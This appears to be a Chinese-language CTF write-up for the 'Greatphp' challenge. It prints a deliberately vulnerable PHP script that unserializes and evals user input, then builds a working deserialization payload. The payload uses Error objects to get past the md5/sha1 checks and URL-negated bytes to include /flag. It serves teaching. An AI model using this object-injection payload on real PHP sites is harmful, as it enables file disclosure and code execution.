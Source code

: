 # [极客大挑战 2020]Greatphp



## 0、知识点

>   php反序列化

>   `md5()`和`sha1()`比较

>   Error/Exception 内置类绕过哈希比较



## 1、解题

原题代码

```php
<?php
error_reporting(0);

class SYCLOVER {
    public $syc;
    public $lover;

    public function __wakeup(){
        // syc != lover and md5(syc) === md5(lover), syc = 数组，lover = 数组
        if( ($this->syc != $this->lover) && (md5($this->syc) === md5($this->lover)) 
        && (sha1($this->syc) === sha1($this->lover)) ){
           
            if(!preg_match("/\<\?php|\(|\)|\"|\'/", $this->syc, $match)){
               eval($this->syc);
           } else {
               die("Try Hard !!");
           }
           
        }
    }
}

if (isset($_GET['great'])){
    unserialize($_GET['great']);
} else {
    highlight_file(__FILE__);
}

```

>   这个乍看一眼在ctf的基础题目中非常常见，一般情况下只需要使用数组即可绕过。
>
>   但是这里是**在类里面**，我们当然不能这么做

>   这里的考点是`md5()`和`sha1()`可以对一个类进行hash，并且会触发这个类的 `__toString` 方法；
>
>   且当`eval()`函数传入一个类对象时，也会触发这个类里的 `__toString` 方法。

>   所以我们可以使用含有 `__toString` 方法的PHP内置类来绕过，
>
>   用的两个比较多的内置类就是 `Exception` 和 `Error` ，
>
>   他们之中有一个 `__toString` 方法，**当类被当做字符串处理时**，就会调用这个函数

```js
<?php
    $a = new Error("payload",1);$b = new Error("payload",2);
    echo $a;
    echo "\r\n\r\n";
    echo $b;

结果：
Error: payload in D:\program_files\phpstudy_pro\WWW\test\index.php:9 Stack trace: #0 {main}
Error: payload in D:\program_files\phpstudy_pro\WWW\test\index.php:9 Stack trace: #0 {main}
```

>   可见，`$a` 和 `$b` 这两个错误对象本身是不同的，但是 `__toString` 方法返回的结果是相同的

>   绕过`preg_match()`，因为括号被过滤，所有无法调用函数，也无法使用引号
>
>   这时可以使用到`include /flag`，将文件包含进来

>   绕过引号的方式是使用 **url取反**

```php
class SYCLOVER {
    public $syc;
    public $lover;

}
// %D0%99%93%9E%98 === /flag
$str = "?><?=include~".urldecode("%D0%99%93%9E%98")."?>";
/* 
或使用[~(取反)][!%FF]的形式，
即: $str = "?><?=include[~".urldecode("%D0%99%93%9E%98")."][!.urldecode("%FF")."]?>";    
 
$str = "?><?=include $_GET[_]?>"; 
*/
$c = new SYCLOVER();
$a = new Error($str,1);$b = new Error($str,2);
$c->syc = $a;
$c->lover = $b;

echo urlencode(serialize($c));
```

>   这里 `$str = "?><?=include~".urldecode("%D0%99%93%9E%98")."?>";` 中为什么要在前面加上一个 `?>` 呢？
>
>   因为 `Exception` 类与 `Error` 的 `__toString` 方法在eval()函数中输出的结果是不可能控的，
>
>   输出的报错信息中，payload前面还有一段杂乱信息“Error: ”：如下

```PHP
Error: payload in /var/www/html/tmp/test.php:2
Stack trace:
#0 {main}
```

>   进入`eval()`函数会类似于：`eval("...Error: <?php payload ?>")`。
>
>   所以我们要用 `?>` 来闭合一下，即 `eval("...Error: ?><?php payload ?>")`，这样我们的payload便能顺利执行了







参考：

https://johnfrod.top/ctf/2020-%E6%9E%81%E5%AE%A2%E5%A4%A7%E6%8C%91%E6%88%98greatphp/